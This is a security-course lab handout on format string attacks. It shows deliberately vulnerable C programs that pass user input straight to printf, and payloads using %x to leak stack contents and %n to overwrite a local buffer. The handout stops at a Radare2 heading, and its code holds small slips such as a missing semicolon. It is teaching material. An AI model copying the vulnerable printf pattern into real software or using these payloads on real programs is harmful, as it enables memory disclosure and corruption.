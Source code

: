 # EHD Practical 15 - Format String Attack

###### tags: #EHD 

## Table of Contents
```toc
```

## Looking at Stack Contents Through Format String Attacks
**On Win10 VM**
1. Create the following C program called `formatstr.c`
```c
#include <stdio.h>
int main(int argc, char *argv[]) {
	printf(argv[1])
	return 0;
}
```

2. Compile the program
```
gcc -o formatstr1 formatstr1.c
```

3. Run the program with the argument `hello`
```
./formatstr1 hello
```

4. Run the program with the argument `hello%s`
```
./formatstr1 hello%s
```

5. Run the program with the argument `hello%08x`
```
./formatstr1 hello%08x
```

6. The data that appears after the string `hello` comes from the top of the stack
7. To see more of the stack, run the program with more format parameters
```
./formatstr1 %08x.%08x.%08x.%08x
```

8. To see even more content from the stack, use a Perl or Python script to generate the format parameters
```
./formatstr1 $(perl -e 'print "%08x." x 40')
./formatstr1 $(python2.7 -c 'print("%08x" * 40)')
./formatstr1 $(python3.6 -c 'print("%08x" * 40)')
```

## Format Parameter %n
> The format parameter %n will write the number of characters that have been written by the function so far to the specified variable address

**On Win10 VM**
1. Create the following C program `formatstr2.c`
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	return 0;
}
```

2. Compile and run the program without parameters. Count should have the value 5
3. Edit the program to add the following two lines:
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	printf("12345 67890%n\n",&count);
	printf("Count :%d\n", count);
	return 0;
}
```

4. Compile and run the program without parameters. The variable count should have the values 5 and 11
5. Edit the program to remove `&count` from the third line
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	printf("12345 67890%n\n"); // remove &count
	printf("Count :%d\n", count);
	return 0;
}
```

6. Run the program without parameters. The program will attempt to write the number 11 into the address at the top of the stack. This may cause the program to crash

## Using Format String Vulnerabilities to Change the Values of Local Variables
1. Create the following C program `formatstr3.c`
```c
#include <stdio.h>

int functionA(char *buffer, char *inputstring) {
  printf("address of buffer %x\n",buffer);
  printf("buffer %s\n", buffer);
  printf(inputstring);
  printf("\naddress of buffer %x\n",buffer);
  printf("buffer %s\n", buffer);
  return 0;
}

int main(int argc, char *argv[]) {
  char buffer[10] = "Goodbye";
  functionA(buffer, argv[1]);
  return 0;
}
```

2. Compile and run the program with the argument `Hello`
```
gcc -o formatstr3 formatstr3.c
./formatstr3 Hello
```

3. You may get output like the following:
```
address of buffer ffffcc26
buffer Goodbye
Hello
address of buffer ffffcc26
buffer Goodbye
```

4. Run the program with the arguments `%x.%x.%x.%x.%x.%x.%x` to get the top 7 words from the stack
```
./formatstr3 %x.%x.%x.%x.%x.%x.%x
```

5. You may get the following output:
```
address of buffer ffffcc26
buffer Goodbye
0.ffffc934.0.ffffcc30.401126.ffffcc26.8036a4689
address of buffer ffffcc26
buffer Goodbye
```

6. Change the number of `%x` so that the address of the buffer is the last word to be displayed
7. Change the last `%x` to `%n` so that instead of `%x` which will display the current word in the stack, `%n` will write something to the address contained in the current word of the stack
```
./formatstr3 %x.%x.%x.%x.%x.%n
```
8. You may get the following output:
```
address of buffer bfc8a902
buffer Goodbye
0.ffffc934.0.ffffcc30.401126.
address of buffer bfc8a902
buffer
```

9. We have changed the variable buffer to an empty string
10. To change the buffer to an exclamation mark, find its ASCII value 
11. Count the number of characters that is printed out by the program line vulnerable to the format string attack `printf(inputstring)`
```
# 29 characters are printed in this line
address of buffer bfc8a902
buffer Goodbye
0.ffffc934.0.ffffcc30.401126.
address of buffer bfc8a902
buffer 
```

12. Run the program with the same number of `%x` but add four more characters so that the line printed out will be 33 characters long
13. The last `%n` will write the number of characters printed out to the address contained in the current word of the stack
```
./formatstr3 %x.%x.%x.%x.%x.1234%n
```

## Using Radare2 to Debug Programs
**On Kali VM**
1. Examine the C program called `doublevalue.c`